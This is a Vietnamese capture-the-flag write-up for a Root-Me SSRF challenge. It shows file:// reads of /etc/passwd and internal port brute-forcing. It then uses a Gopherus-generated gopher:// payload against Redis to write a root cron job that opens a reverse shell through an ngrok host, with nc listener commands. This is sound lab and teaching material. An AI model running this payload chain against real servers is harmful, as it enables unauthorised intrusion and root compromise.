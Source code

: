 # SSRF

**Tên challenge:** Server Side Request Forgery

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Your goal is simple: compromise the virtual environment "SSRF Box".

The validation password of challenge (Realist) is in the `/root` directory.

Validation flag is stored in the file `/passwd`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng là CURL như sau:

![alt text](./images/image.png)

Vì ta đã biết lỗ hổng là SSRF nên ta sẽ thử payload cơ bản như `file:///etc/passwd` để xem sao

**B2:** Ta thử nhập payload `file:///etc/passwd`

![alt text](./images/image-1.png)

=> Trang Web đã thực sự đọc được file nội bộ `/etc/passwd`

**B3:** Ta tiếp tục thử input 2 payload `file:///passwd` và `file:///root/passwd` để xem liệu ta có thể lấy được `Flag` thì cả hai đều trả về kết quả:

```
Erreur Curl : Couldn't open file
```

=> Lỗi trên, có thể là do ta không đủ quyền hạn để mở file đó hoặc file đó không tồn tại nhưng khả năng đầu tiên sẽ hợp lý hơn.

Ngoài ra, ta cũng chẳng thể chèn thêm bất kỳ câu lệnh `Command` nào khác.

**Thông tin thêm:** Nếu như bạn đi tìm hiểu thì lỗ hổng SSRF có thể đạt được RCE.

* **Cụ thể:** Nếu như trong Server nội bộ của mục tiêu mở những port khác ngoài port cho Website như 80 hoặc 443, thì ta có thể xem xét đến hướng đi này. Nếu may mắn thì những Service mà Server Internal mở port có thể sẽ tồn tại những lỗ hổng dẫn đến RCE, và đây chính là mục tiêu mà ta sẽ hướng tới.

**B4:** Ta thử Brute-force Port đang mở trên Server nội bộ `127.0.0.1:port` và ta sẽ thử port từ `[1 -> 65535]`

![alt text](./images/image-2.png)

Ta thử cho đến khi đúng port `6379` thì trang Web bắt đầu load chậm hơn bình thường rất nhiều.

=> Server nội bộ đang mở port `6379`.

**Câu hỏi:** Vậy tiếp theo ta phải làm sao để khai thác lỗ hổng ở trên port `6379` này ?
* **Trả lời:** Khá may mắn là Server nội bộ đang mở port `6379`, đây là port của Redis mà nếu port này đang mở thì ta có thể ghi đè lên file system, tạo 1 file để RCE hoặc tạo Reverse Shell.

Ta có thể dùng tool [Gopherus](https://github.com/tarunkant/Gopherus) để giúp ta tạo payload từ đó gửi lên Web và đạt được RCE.

Cách dùng tool khá đơn giản nhưng trước tiên ta phải dùng lệnh `ngrok tcp 1234` để mở 1 IP public có nhiệm vụ tiếp nhận gói tin bên ngoài và chuyển tiếp vào trong port `1234` của máy ta, trong trường hợp bạn không có IP public.

Sau khi dùng tool thì ngrok sẽ cung cấp cho ta 1 địa chỉ có dạng như `tcp://0.tcp.ap.ngrok.io:port`, ta sẽ điền `0.tcp.ap.ngrok.io` khi tool `gopherus` yêu cầu ta cấp IP.
```
$> python2 gopherus.py --exploit redis

                                                                                                                                                                                               
  ________              .__                                                                                                                                                                    
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                     
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                     
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                      
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                     
        \/       |__|        \/     \/                 \/                                                                                                                                      
                                                                                                                                                                                               
                author: $_SpyD3r_$                                                                                                                                                             
                                                                                                                                                                                               

Ready To get SHELL

What do you want?? (ReverseShell/PHPShell): Reverseshell

Give your IP Address to connect with victim through Revershell (default is 127.0.0.1): 0.tcp.ap.ngrok.io                                                            
What can be his Crontab Directory location
## For debugging(locally) you can use /var/lib/redis :                                                                                                                                         

Your gopher link is ready to get Reverse Shell:                                                                                                                                                
                                                                                                                                                                                               
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2464%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

Before sending request plz do `nc -lvp 1234`
```

Kế tiếp, ta copy payload rồi chỉnh sửa lại payload ở chỗ `1234` thành `port` của `ngrok` là `15859`. Vì tool `Gopherus` sẽ luôn tạo payload mặc định là `1234`, nếu như bạn có sẵn IP public trong Card mạng thì bạn không cần sửa lại. Nếu bạn dùng `ngrok` để mở 1 IP public thì bạn bắt buộc phải sửa lại, để khi gói tin đi đến địa chỉ IP public ngrok của ta thì nó sẽ chuyển tiếp vào port `1234` đang mở trong máy của mình.

Tiếp đến, ta sẽ lắng nghe ở port `1234` trong máy mình thông qua lệnh `nc -lnvp 1234`, rồi sau đó gửi payload đã chỉnh sửa lên Webserver.

Đợi 1 lúc thì ta sẽ thấy ta đã kết nối được với Shell

Tiếp theo, bạn chỉ cần đọc dùng lệnh `cat /passwd` thôi là được.

![alt text](./images/image-3.png)